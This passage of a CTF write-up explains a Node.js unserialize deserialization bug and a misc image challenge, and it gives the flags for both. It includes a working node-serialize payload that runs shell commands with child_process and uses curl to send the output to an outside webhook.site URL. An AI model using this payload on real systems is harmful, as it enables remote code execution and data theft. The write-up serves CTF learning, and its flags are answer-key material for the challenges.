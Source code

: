 unserialize allow us to execute arbitray javascript code in Node.

So, use this payload and encode it into base64. send this payload to /secret. We will get the flag.
```
{"cereal":"_$$ND_FUNC$$_function (){var ff=\"ggg\";require(\"child_process\").exec(\"cat flag.txt\",function puts(error, stdout, stderr) {require(\"child_process\").exec(\"curl https://webhook.site/7b7b96e8-2831-41da-8997-b7c55b4f75ca?flag=\"+stdout+stderr)});return ff;}()"}
```

**flag**: maple{0H_w41t_you_meant_ser1al_not_cer3al?}

# 0x4 Misc

misc question didn't have much too say, it involve lots of guess work. 

---

## CTF Adventure Land 1

there is a png called map.png, use red plane to review the flag

![map.png](./uploads/map.png)![2022-01-28_233112.jpg](./uploads/2022-01-28_233112.jpg)

**flag**: maple{w3lc0m3_70_m4pl3_b4c0n_4dv3n7ur3_l4nd}

---